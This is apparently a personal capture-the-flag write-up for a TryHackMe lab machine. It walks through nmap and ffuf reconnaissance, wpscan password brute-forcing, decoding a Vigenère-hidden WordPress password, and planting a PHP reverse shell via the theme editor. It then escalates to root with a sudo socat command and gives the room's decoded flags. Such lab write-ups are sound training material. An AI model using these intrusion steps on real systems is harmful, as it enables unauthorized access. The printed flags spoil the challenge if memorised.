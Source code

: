 ### Nmap

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.24.189
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e25c3322765c9366cd969c166ab317a4 (RSA)
|   256 1b6a36e18eb4965ec6ef0d91375859b6 (ECDSA)
|_  256 fbfadbea4eed202b91189d58a06a50ec (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


### HTTP

- ffuf gives 
```
/wordpress
/hackathons
```

- `/hackathons` included this in comments 
```
<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
```

Maybe some kind of credentials


- Found login at `http://10.10.188.209/wordpress/wp-login.php` but above creds are not working in ssh, ftp and wp-login
- wpscan also gives nothing interesting
```
─[glack@parrot]─[~/Desktop/THM/All_in_one]
└──╼ $wpscan --url http://10.10.188.209/wordpress/
```

maybe this 

```
Upload directory has listing enabled: http://10.10.188.209/wordpress/wp-content/uploads/
```


- Found one username at 
```
## Archives

- [October 2020](http://10.10.188.209/wordpress/index.php/2020/10/)
```

`By [elyana](http://10.10.188.209/wordpress/index.php/author/elyana/)`


- When trying to login as `elyana` with pass ``
`pasfaw` we get this error 

```
**Error**: The password you entered for the username **elyana** is incorrect.
```

- Stopped this after 17 minutes
```
─[glack@parrot]─[~/Desktop/THM/All_in_one]
└──╼ $wpscan --url http://10.10.188.209/wordpress/ --usernames elyana --passwords /usr/share/wordlists/rockyou.txt
```

- this found nothing

```
┌─[glack@parrot]─[~/Desktop/THM/All_in_one]
└──╼ $wpscan --url http://10.10.188.209/wordpress/ --usernames elyana --passwords /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-10000.txt
```

- will continue this tomorrow

- Trying the following combinations in /wp-login.php
```
username - elyana
pass- Dvc, W@iyur@123, KeepGoing

```

- Got fed up and used the writeup here

so turns out `/hackathons ` comment text was a vignere encoded text and Vinegar was an hint for this.

- Used `https://www.boxentriq.com/code-breaking/vigenere-cipher` site to decode the text 

![[Pasted image 20230829030019.png]]

we get 

`Try H@ckme@123`

- Now we are able to log in as 

```
elyana

H@ckme@123
```

closed the write up here


- after logging in i changed the content of `404.php` to pentest php reverse shell
`http://10.10.95.207/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwenty`


- start a reverse netcat listener
and generated an error using 

`http://10.10.95.207/wordpress/index.php/2019/10/` <changed 2020 to 2019>

and i get a shell as 
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Priv Esc

- After loggin in i tried to switch user to elyana but it gave me Authentication failure

- there was a hint file in elyana's home directory
```
bash-4.4$ cat hint.txt
cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
```

- A hint to use the find command maybe?
 tried few `find` but this one found me something intereting
```
bash-4.4$ find / -type f -user elyana -ls 2>/dev/null


   291777      4 -rwxrwxrwx   1 elyana   elyana         34 Oct  5  2020 /etc/mysql/conf.d/private.txt
```

in the file contents we find the creds of elyana

```
cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
```

```
bash-4.4$ id
id
uid=1000(elyana) gid=1000(elyana) groups=1000(elyana),4(adm),27(sudo),108(lxd)
```

- Now on the way to root
i see [[lxd - priv esc]] option also available since it is showing in the id


- We are also able to run this command as sudo
```
(ALL) NOPASSWD: /usr/bin/socat
```

`https://gtfobins.github.io/gtfobins/socat/#sudo`

````
sudo socat stdin exec:/bin/sh
````


- We easily get root

```
id
uid=0(root) gid=0(root) groups=0(root)
```

- The flags

```
cat root.txt
VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9


cat user.txt
VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259
```


the flags are base64 encoded

```
`For root`
echo "VEhNe3VlbTJ3aWdidWVtMndpZ2I2OHNuMmoxb3NwaTg2OHNuMmoxb3NwaTh9" | base64 -d
THM{uem2wigbuem2wigb68sn2j1ospi868sn2j1ospi8}


For user
echo "VEhNezQ5amc2NjZhbGI1ZTc2c2hydXNuNDlqZzY2NmFsYjVlNzZzaHJ1c259" | base64 -d
THM{49jg666alb5e76shrusn49jg666alb5e76shrusn}

```

